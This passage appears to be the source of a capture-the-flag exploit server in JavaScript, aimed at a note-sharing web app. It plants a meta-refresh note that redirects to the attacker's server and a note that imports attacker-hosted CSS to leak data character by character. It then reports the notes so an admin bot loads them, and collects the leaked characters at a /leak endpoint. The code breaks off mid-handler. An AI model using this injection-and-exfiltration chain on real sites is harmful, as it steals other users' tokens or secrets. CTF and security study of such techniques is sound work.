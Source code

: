 ``` js
async function getNotes() {
  return await fetch(cookieJar, host + '/', {
  }).then(res => res.text())
}

async function share(id) {
  return await fetch(cookieJar, host + '/share_diary/' + id, {
  }).then(res => res.text())
}

async function report(username, id) {
  return await fetch(cookieJar, `${host}/report?username=${username}&id=${id}` , {
  }).then(res => res.text())
}

app.get('/', (req, res) => {
  res.send('Hello World!')
})

app.get('/start', async (req, res) => {
  // create ccount
  username = getRandomStr(8)
  let password = getRandomStr(8)
  leaks = []
  hasToken = false

  console.log({
    username,
    password
  })

  const response = await fetch(cookieJar, host + '/login', {
    method: 'post',
    headers: {
      'content-type': 'application/x-www-form-urlencoded'
    },
    body: `username=${username}&password=${password}`
  })

  const resp = await createNote('note1', `<meta http-equiv="refresh" content="0;URL=${selfHost}/exp">`)

  await createNote('note2', `<style>@import "${cssUrl}/exp1.css";@import "${cssUrl}/exp2.css";@import "${cssUrl}/exp3.css";</style>`)

  console.log('done')

  await share(0)
  await share(1)

  console.log('report username:', username)
  console.log(await report(username, 0))

  res.send('done')

})

app.get('/leak', async (req, res) => {
    leaks.push(req.query.q)
    console.log('recevied:', req.query.q, leaks.length)
    if (leaks.length === 30) {
      const result = handleLeak()
      // create a new note
```